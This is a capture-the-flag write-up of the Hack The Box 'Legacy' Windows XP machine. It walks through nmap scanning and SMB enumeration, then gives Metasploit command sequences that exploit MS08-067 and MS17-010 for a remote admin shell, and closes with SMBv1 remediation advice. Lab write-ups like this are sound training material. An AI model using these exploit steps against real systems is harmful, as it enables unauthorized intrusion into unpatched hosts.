

## Machine Information

- **Machine Name:** Legacy
- **Machine IP:** 10.10.10.4
- **Machine Type:** Easy
- **Machine OS:** Windows

---

## Reconnaissance - information gathering

This is the stage which is performed by all kinds of hackers irrespective of their hats, and we will gather as much information as possible during this stage because it will help us in exploitation.

> *"The efficiency of an exploitation depends on the valuation of the information gathered before exploitation"*

### TCP Ports and Services scan

If you were provided with an *address* of the Royal Palace and you have to rob it, the first and foremost thing you would do is to look for *open ports, windows, or doors* which will allow you to enter the place at the first place. In the same way, we will have to find open ports that are vulnerable or leads to some vulnerable place, and by exploiting it we will get our initial access.

**Command**
`sudo nmap -sVC -p- -O 10.10.10.4 | tee nmapLegacy.txt`

**Output**
```
Starting Nmap 7.94SVN ( [https://nmap.org](https://nmap.org) ) at 2025-04-13 17:06 EDT
Nmap scan report for 10.10.10.4
Host is up (0.025s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
No exact OS matches for host (If you know what OS is running on it, see [https://nmap.org/submit/](https://nmap.org/submit/) ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=4/13%OT=135%CT=1%CU=38641%PV=Y%DS=2%DC=I%G=Y%TM=67F
OS:C278E%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=106%TI=I%CI=I%II=I%SS=S
OS:%TS=0)OPS(O1=M53CNW0NNT00NNS%O2=M53CNW0NNT00NNS%O3=M53CNW0NNT00%O4=M53CN
OS:W0NNT00NNS%O5=M53CNW0NNT00NNS%O6=M53CNNT00NNS)WIN(W1=FAF0%W2=FAF0%W3=FAF
OS:0%W4=FAF0%W5=FAF0%W6=FAF0)ECN(R=Y%DF=Y%T=80%W=FAF0%O=M53CNW0NNS%CC=N%Q=)
OS:T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=N%T=80%W=0%S=Z%A=S%F=AR
OS:%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=FAF0%S=O%A=S+%F=AS%O=M53CNW0NNT00NNS%RD=0
OS:%Q=)T4(R=Y%DF=N%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=N%T=80%W=0%S=Z
OS:%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=N%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y
OS:%DF=N%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=B0%UN=0%RIP
OS:L=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=S%T=80%CD=Z)
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp
Host script results:
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2025-04-19T02:04:55+03:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b0:5d:9c (VMware)
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 5d00h27m38s, deviation: 2h07m16s, median: 4d22h57m38s
OS and Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 52.26 seconds
```

We found three TCP ports open, which are as follow: 135 (msrpc), 139 (netbios-ssn), 445 (microsoft-ds). It seems like the OS is Windows XP, well that is definitely not secure from any side, and it means its SMB might be vulnerable. Furthermore, we found some basic SMB script scan and it shows various information like OS, Computer name, NetBIOS computer name, Workgroup, etc.

### SMB Enumeration


**Command:**
`sudo nmap --script smb-enum-shares.nse -p445 10.10.10.4 | tee nmapLegacyShares.txt`

After knowing that the OS is vulnerable and it uses SMB, I started enumerating it with different things. First, I tried if I can find any shares, unfortunately the NSE script returns with default shares cause it cannot find any information. I was hoping to get to interesting shares, but hope sucks sometimes, so better go with intellect.


**Command:**
`sudo nmap --script smb-os-discovery.nse -p445 10.10.10.4 | tee nmapLegacyOS.txt`

After getting nothing in shares, I decided to recheck the OS being used and yes it is Windows XP! So technically SMB should be vulnerable service because there is no chance they are used patched SMB service on Windows XP.

When I was going through all the SMB enumeration, there was a UDP port scan that was running in the background. Finally it was completed with some useful results and now we can enumerate more services, but still I feel the vulnerable service will be SMB.


**Commands:**
- `sudo nmap -sU -p- 10.10.10.4 | tee nmapLegacyUDP.txt`
- `sudo nmap -p445 --script smb-protocols.nse 10.10.10.4 | tee nmapLegacySMBProto.txt`

In UDP port scan, we found two interesting ports, one of them is NTP (123/udp) and another one is netbios (137/udp). I tried some enumeration on NTP and found computer name, workgroup, NetBIOS name, etc. 

Following the NTP enumeration, I restart my SMB enumeration and found the exact version in use, it was SMBv1 which is vulnerable from bottom to top. Now I was 110% sure that we will exploit SMB, so I started searching for vulnerabilities and exploits.

## Initial Foothold - ms08-067

In this phase, we will find available vulnerabilities and exploits which can be utilized to exploit the system, and we will use the information gathered during the reconnaissance stage so we can find the perfect exploit or make one by ourselves.

### Searching vulnerabilities & exploits




**Command:**
`sudo nmap -p445 --script=smb-vuln* 10.10.10.4 | tee nmapLegacySMBVuln.txt`

I performed the above nmap command to scan for all available vulnerabilities that nmap can find using smb-vuln scripts in SMB service of the target machine, and we found 2 of them. Lets focus on CVE of 2008, it is a remote code execution that affects the smb version that is running on our target machine, but if you are up-to-date in the cyber world, then seeing the another 2017 vulnerability, you must know what it is.  Second vulnerability deserve an entire blog on it, because it is THE GREAT ETERNAL BLUE or call is MS17-010, EternalRomance, Eternal, etc… Go search for yourself what actually it was, and give all thanks to our lovely National Security Agency (NSA) for it.


**Commands:**
- `searchsploit ms17-010`
- `searchsploit ms08-067`

I wanted to perform both the exploits, so I decided to divide the exploitation in 2 parts and you can go through both of them if you want to learn or else choose any one exploit and just get to the flags.
### Exploiting the system


**Commands:**
```
msfconsole
msf> search ms08-067
msf> use 0
msf> show options
msf> set RHOSTS 10.10.10.4
msf> set LHOST 10.10.14.12
msf> exploit
```

I went through metasploit framework and used ms08-067 exploit with the required settings, and tried exploiting the system. I was successful to get the access, and ignore my "whoami" error, I am a old-school linux guy, I am not good with Windows. Windows is like my tenth language, not even second!


Well done! We found both the flags and this is where the challenge is over! Unfortunately, my over-dedicated mind wants to try ms17-010 also even after finishing the challenge, so lets jump to it. If you want to skip it then directly go to the conclusion section.

## Initial access - ms17-010

We were successfully able to exploit the machine with ms08-067, and also received both the flags. Now it is time we jump into ms17-010, and try to get access to the system. 


I searched for ms17-010 and found 2 exploits available on that, I tried the first one which failed because of the OS version mismatch. Well, that's how most of the hackers learn, by doing silly mistakes. This exploit only works for x64 targets and our target is not 64-bit, so I jumped on the psexec exploit.


**Commands:**
```
msfconsole
msf> search ms17-010
msf> use 10
msf> show options
msf> set RHOSTS 10.10.10.4
msf> set LHOST 10.10.14.12
msf> exploit
```

BANG! We were able to exploit the system with ms17-010 psexec exploit. Anyone who is trying to exploit this machine can use any of the exploit, both of them gives you a direct admin privileged shell, so there is no need for privilege escalation.

## Conclusion - lesson learned

This section go through the description of our findings and their available fixes. It will go through why the system was exploitable, what vulnerability existed, and how could it be fixed. It is not directly related to the hack the box challenge, but this is a good practice because it will increase your knowledge about vulnerabilities, exploits and their fixes. We will be starting with the first vulnerable thing to the last one.

### Windows XP: For the sake of GOD, stop using it!

Windows XP was launched on *October 25, 2001* and its End of Life (EOL) was *April 8, 2014* (yea, it survived 12 years, that's why I don't use windows). It is one of the most vulnerable operating system that anyone could ever use, and using it in the era of 2025 is like using a horse-cart in the era of electric cars. 

#### Fix: what can be done

The best recommended advice is to upgrade to the latest version of the Windows which is stable and secure. This will eliminate all the vulnerabilities, loopholes, or bugs that were in the previous software, and will make your system secure against outdated exploits. Unfortunately, the target was running Windows XP due to which it has SMBv1 running which was vulnerable from its bottom of heart and it already had well-known exploits.

If by any chance you wish to use Windows XP or vulnerable operating systems, then do not connect them to the Internet, and keep them under isolation. This will keep your vulnerable system out-of-attack perimeter and no attacker will able to exploit it through the Internet.

### SMBv1: Vulnerable service

**Server Message Block version 1 (SMBv1)** is an outdated and insecure network file sharing protocol introduced by Microsoft in the 1980s. It enables shared access to files, printers, and serial ports between nodes on a network. However, SMBv1 has numerous critical vulnerabilities and lacks modern security features such as encryption, integrity checks, and robust authentication mechanism.

Most notably, SMBv1 was exploited in the infamous WannaCry ransomware attack in 2017, which caused widespread damaged across industries. The protocol is no longer supported in latest Windows OSes. The WannaCry used a well-known exploit that was leaked by ShadowBrokers from NSA, and it is the infamous EternalBlue.

#### Fix: what can we do

To mitigate the risks associated with SMBv1, follow recommended steps:

##### 1. Disable SMBv1
**Powershell:** `Disable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol`

This will disable SMBv1 on your dedicated system, and it will make sure to utilize other SMB versions for its service.

##### 2. Use SMBv3
- These version offers encryption, integrity protection, and improved performance.
- Ensure all clients and servers support and default to SMBv3.

For joining my hacker community, follow to my discord server: [DISCORD - Cyber X Army]


